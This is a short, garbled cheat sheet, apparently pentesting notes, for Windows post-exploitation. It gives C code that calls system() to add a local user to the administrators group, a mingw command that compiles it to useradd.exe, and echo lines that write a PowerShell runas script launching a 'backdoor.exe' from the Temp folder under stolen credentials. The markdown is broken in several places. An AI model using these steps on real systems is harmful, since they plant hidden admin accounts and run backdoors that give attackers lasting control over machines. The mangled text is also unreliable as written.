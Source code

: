 # Add A Local User

1. Create an add user program in c.

   \`\`\`

   **include  /** _**system, NULL, EXIT\_FAILURE**_ **/**

int main \(\) { int i; i=system \("net user   /add && net localgroup administrators  /add"\); return 0; }

```text
2. Compile program.
```

i686-w64-mingw32-gcc -o useradd.exe useradd.c

```text
# Powershell Run As
```

echo $username = '\[user name\]' &gt; runas.ps1 echo $securePassword = ConvertTo-SecureString "\[password\]" -AsPlainText -Force &gt;&gt; runas.ps1 echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword &gt;&gt; runas.ps1 echo Start-Process C:\Users\[User\]\AppData\Local\Temp\backdoor.exe -Credential $credential &gt;&gt; runas.ps1

\`\`\`

